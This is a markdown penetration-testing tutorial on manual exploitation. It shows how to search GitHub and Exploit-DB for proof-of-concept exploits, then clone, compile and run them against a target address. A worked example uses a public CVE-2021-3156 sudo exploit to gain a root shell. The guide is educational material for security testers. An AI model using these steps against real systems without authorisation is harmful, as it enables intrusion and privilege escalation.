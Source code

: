 # Manual Exploitation Guide

## 🔹 Introduction
Manual exploitation is the process of **identifying, downloading, and executing exploits** without using automated tools like Metasploit. This approach is useful when **Metasploit does not have a suitable exploit** or when testing requires **manual control** over execution.

---

## 🔹 Finding an Exploit
Before manually exploiting a target, research and obtain a working exploit.

### **1️⃣ Searching for Exploits on GitHub**
Many proof-of-concept (PoC) exploits are published on **GitHub**.
#### **Google Dork to Search GitHub**
```bash
site:github.com "<service> exploit"
```
**Example:**
```bash
site:github.com "OpenSSH 7.2 exploit"
```
- Look for repositories with PoC code.
- Check README files for **installation and usage instructions**.

#### **Using Exploit-DB & SearchSploit**
```bash
searchsploit OpenSSH 7.2
```
If a relevant exploit is found, **copy it locally**:
```bash
searchsploit -m exploits/unix/remote/4091.py
```

---

## 🔹 Cloning & Setting Up the Exploit
Once a suitable exploit is found on GitHub, clone and set it up.

### **2️⃣ Cloning the Exploit Repository**
```bash
git clone https://github.com/username/exploit-repo.git
```
Then, **navigate into the directory**:
```bash
cd exploit-repo
```

### **3️⃣ Install Dependencies**
Many exploits require additional dependencies. Check the **README** or `requirements.txt`.
```bash
pip install -r requirements.txt
```
If using a compiled exploit (C, C++):
```bash
gcc exploit.c -o exploit
```

---

## 🔹 Exploiting the Target
### **4️⃣ Running the Exploit**
#### **Python Exploit Example**
```bash
python3 exploit.py --target 192.168.1.100 --port 8080
```
#### **Bash Exploit Example**
```bash
chmod +x exploit.sh
./exploit.sh 192.168.1.100
```
#### **C/C++ Exploit Example**
```bash
./exploit 192.168.1.100
```

---

## 🔹 Example: Manual Exploitation of CVE-2021-3156 (Sudo Heap Overflow)
This vulnerability allows **local privilege escalation**.

### **1️⃣ Download the Exploit**
```bash
git clone https://github.com/blasty/CVE-2021-3156.git
cd CVE-2021-3156
```

### **2️⃣ Compile the Exploit**
```bash
gcc exploit.c -o sudo_exploit
```

### **3️⃣ Run the Exploit**
```bash
./sudo_exploit
```
- If successful, a **root shell (`#`)** will be obtained.

---

## 🔹 Troubleshooting & Tips
### **If the Exploit Fails:**
1. **Check the Target System Version**
   ```bash
   uname -a
   cat /etc/os-release
   sudo --version
   ```
2. **Try a Different Exploit Variant**
   ```bash
   searchsploit sudo
   ```
3. **Modify the Exploit Code** (Adjust hardcoded values, shellcode, offsets).
4. **Ensure Dependencies Are Installed** (Use `pip`, `apt-get`, or `dnf`).
5. **Run the Exploit with Debugging** (Use `strace`, `gdb`, or `ltrace`).

---

## 🔹 Conclusion
Manual exploitation requires **careful research, correct setup, and debugging skills**. Using **GitHub, Exploit-DB, and SearchSploit**, security testers can find and execute exploits when automated tools are unavailable.

